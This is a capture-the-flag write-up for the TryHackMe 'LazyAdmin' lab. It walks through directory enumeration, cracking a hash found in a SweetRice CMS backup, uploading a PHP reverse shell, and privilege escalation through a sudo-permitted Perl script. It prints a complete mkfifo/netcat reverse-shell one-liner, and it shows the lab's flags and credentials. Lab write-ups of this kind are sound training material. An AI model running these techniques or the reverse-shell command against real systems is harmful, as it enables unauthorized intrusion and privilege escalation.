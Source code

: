 # tryhackme: LazyAdmin

> What is the user flag?
>
> What is the root flag?

I started with an `nmap` scan, which only found a HTTP service on port 80 and SSH on port 22. I tried some simple username-password combinations on the SSH service, without any luck. That lead me to conclude the website will be the main attack surface.

The default Ubuntu-Apache2 landing page is being served, but there were no hints towards other interesting paths. There was also no `robots.txt`. I decided to try `dirbuster`, with one of the Kali default wordlists. I made it look for `.php` files too, which is always a good guess with Apache. It started throwing out interesting paths immediately:

![](https://imgur.com/o30g56J.png)

It looks like there is an installation of the SweetRice CMS in `/content`. There's an admin login in `/content/as/`. I did not know about SweetRice, but one of the first results I got when doing an online search was a list of [security vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-8230/product_id-18429/Basic-cms-Sweetrice.html). Interesting!

Dirbuster also found a file called `mysql_bakup_20191129023059-1.5.1.sql`. There's information about a user called `manager` in there, notably also a password hash: `42f749ade7f9e195bf475f37a44cafcb`. A simple Google search revealed this was the hash for `Password123`. Those credentials got me into the admin panel at `/content/as/index.php`. With this access, I think expoiting one or more of the CVE's should be possible.

I first tried the remote file inclusion one. I created PHP reverse shell code using `revshells.com`, tried some different uploads and the *New Ad* one got me a working reverse shell. It did seem to only work with the *Close Website* option disabled in the site settings, but I have no idea what that setting does exactly.

![](https://imgur.com/sfdatS0.png)

With this working reverse shell I'm very powerful. I listed all system users and found a user called `itguy`. His home directory has a file called `user.txt` that contains a flag and a MySQL login.

```
$ cd /home/itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
$ cat mysql_login.txt
rice:randompass
```

Now, we have to escalate privileges and/or find a root flag too. The `backup.pl` file does something interesting:

```
$ cat backup.pl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");

$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Interestingly, it has sudo permissions when it's executed:

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So I changed this file to have my IP address and another port, resulting in a second reverse shell, this time with root privileges. There I found the root flag:

```
# pwd
/root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```
